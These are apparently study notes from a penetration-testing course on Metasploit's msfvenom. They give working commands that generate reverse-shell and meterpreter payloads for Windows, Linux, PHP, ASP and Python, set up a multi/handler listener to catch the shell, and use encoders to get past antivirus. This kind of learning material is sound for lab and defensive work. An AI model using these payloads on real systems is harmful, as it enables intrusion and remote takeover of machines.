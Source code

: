 
# Msfvenom
- Simply put Msfvenom is "Reformatting the payload that is dedicated to metasploit into target system compatible executable file"
- `msfvenom --list formats` list supported output formats
- Encoders, can be useful  against some antivirus software
	- sample usage: `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64`
- Handlers is used to reveice the reverse shell message, also known as "catching a shell"
- Standard Syntax: `msfvenom -p <PAYLOAD> <OPTIONS>`
	- e.g. `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`
- Steps:
	- Create and convert the payload (preparation)
	- **Set LHOST and LPORT, note that the file will be send via an alternative channel, hence we want it to automatically connect to our session when executed, thus the LHOST and LPORT with be the attacks machine.**
		- Give the local machine IP address: LHOST will be the IP address of your attacking machine
		- Give local port to which the payload will connect: LPORT will be the port on which your handler will listen
		- e.g. `msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php`
		- note that the name of the payload in msfconsole is `payload/php/reverse_php`
	- `use exploit/multi/handler` start a handlers in metasploit
	- set the parameter e.g. `set payload php/reverse_php`, `set lhost 10.0.2.19`, `set lport 7777`
	- `exploit` on msfconsole
- Some converted file (such as converted php files) needs to be manually fixed 
	- e.g. php file header tag and end tag needs to be fixed properly with `<?php [content] ?>`
- List the possible payload that can be ran with meterpreter: `msfvenom --list payloads | grep meterpreter`
- Example command and format:
	- Linux excutable (elf): `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf` run `./rev_shell.elf` on the target machine.
	- Windows (exe): `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
	- PHP: `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
	- ASP: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`
	- Python: `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`
	*The `-p` means the payload that exist within the metasploit
	***Usually the payload is already written in the certain system language indicated by `windows/`, `linux/`, the goal of the conversion like `-f exe > rev_shell.exe`  is to turn them to an actual executable file of the related system (the original file is only usuable within the metasploit framework), hence the `-f` option simply means turn it into 'the format that is allowed to be executed on the target system'.**

## Naming convention
- Payload naming convention
	- `<OS>/<arch>/<payload>`
	- e.g. `linux/x86/shell_reverse_tcp`
	- exception for Windows 32 bit: `windows/shell_reverse_tcp`
	- Windows 64 bit: `windows/x64/shell_reverse_tcp`
- Reverse shell naming convention:
	- Stageless with `_`: `shell_reverse_tcp`
	- Staged with `/`: `shell/reverse_tcp`
- Rules applied to Meterpreter
	- Stageless: `linux/x86/meterpreter_reverse_tcp`
	- Staged: `windows/x64/meterpreter/reverse_tcp`
	- `msfvenom --list payloads | grep "linux/x86/metepreter"`
